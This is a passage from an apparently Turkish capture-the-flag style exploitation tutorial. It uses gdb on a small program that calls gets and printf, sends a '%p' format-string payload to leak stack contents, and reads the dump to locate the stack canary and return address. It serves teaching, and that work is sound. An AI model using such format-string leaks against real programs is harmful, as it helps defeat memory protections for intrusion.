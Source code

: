 Bunun için gdb'de biraz inceleme yapabiliriz. Program yeni satırı koyduktan sonra bir breakpoint 
yerleştirebiliriz:
```
root@o101:~/0x3# gdb ./0x3
...
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
...
   0x0000000000401198 <+50>:    call   0x401070 <gets@plt>
   0x000000000040119d <+55>:    lea    rax,[rbp-0x30]
   0x00000000004011a1 <+59>:    mov    rdi,rax
   0x00000000004011a4 <+62>:    mov    eax,0x0
   0x00000000004011a9 <+67>:    call   0x401050 <printf@plt>
   0x00000000004011ae <+72>:    lea    rax,[rip+0xe68]        # 0x40201d
   0x00000000004011b5 <+79>:    mov    rdi,rax
   0x00000000004011b8 <+82>:    call   0x401030 <puts@plt>
   0x00000000004011bd <+87>:    lea    rax,[rbp-0x40]
...
(gdb) break *0x00000000004011bd
Breakpoint 1 at 0x4011b8
```
Şimdi programı çalıştırıp breakpoint'e ulaşınca stack'i incleyelim:
```
(gdb) run
Starting program: /root/0x3/0x3
...
Hello, what's your name?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x4056b1(nil)0x7ffff7fb18e00x4056d9(nil)(nil)(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x66873b1eca714a000x10x7ffff7dfecd00x7fffffffeb800x4011660x1004000400x7fffffffeb980x7fffffffeb98? [yes/no]

Breakpoint 4, 0x00000000004011bd in main ()
(gdb) x/24xg $rsp
0x7fffffffea40: 0x0000000000000000      0x0000000000000000
0x7fffffffea50: 0x7025702570257025      0x7025702570257025
0x7fffffffea60: 0x7025702570257025      0x7025702570257025
0x7fffffffea70: 0x7025702570257025      0x66873b1eca714a00
0x7fffffffea80: 0x0000000000000001      0x00007ffff7dfecd0
0x7fffffffea90: 0x00007fffffffeb80      0x0000000000401166
0x7fffffffeaa0: 0x0000000100400040      0x00007fffffffeb98
0x7fffffffeab0: 0x00007fffffffeb98      0x8783420280ac1eda
0x7fffffffeac0: 0x0000000000000000      0x00007fffffffeba8
0x7fffffffead0: 0x00007ffff7ffd000      0x0000000000403df0
0x7fffffffeae0: 0x787cbdfd558e1eda      0x787cadbd59a61eda
0x7fffffffeaf0: 0x0000000000000000      0x0000000000000000
```
Stacke bakarsak ilk farkettiğimiz şey `answer` buffer'ının sonradan tanımlanmış olmasına 
rağmen başta olması. Bu GCC'in yaptığı optimizasyonlardan biri. Sonrasında `name`
buffer'ını görüyoruz. `0x7025` hex formunda `%p` karakterine denk geliyor. Bundan sonra 
gelen rastgele bellek adresi işte bizim çerezimiz. Arkasından `rbp` ve dönüş değerimiz.
